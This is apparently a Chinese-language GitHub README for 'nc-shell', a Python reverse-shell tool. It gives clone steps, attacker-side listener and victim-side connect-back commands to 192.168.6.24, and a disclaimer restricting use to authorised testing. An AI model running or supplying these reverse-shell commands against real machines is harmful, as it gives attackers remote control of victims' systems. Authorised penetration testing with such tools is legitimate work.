 ## nc-shell

## 安装

```
git clone https://github.com/xanszZZ/nc-shell
cd nc
```

## 使用

```
1.反弹shell
2.单个文件实现两端
	通过不同的参数    监听的时候只运行监听的分支代码，反弹就运行反弹的分支代码
```

poc

```
python3 nc.py -p 5656  #设置代理端口，攻击端

python3 nc.py -r 192.168.6.24 -p 5656  #反弹shell 受害端
```



## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。
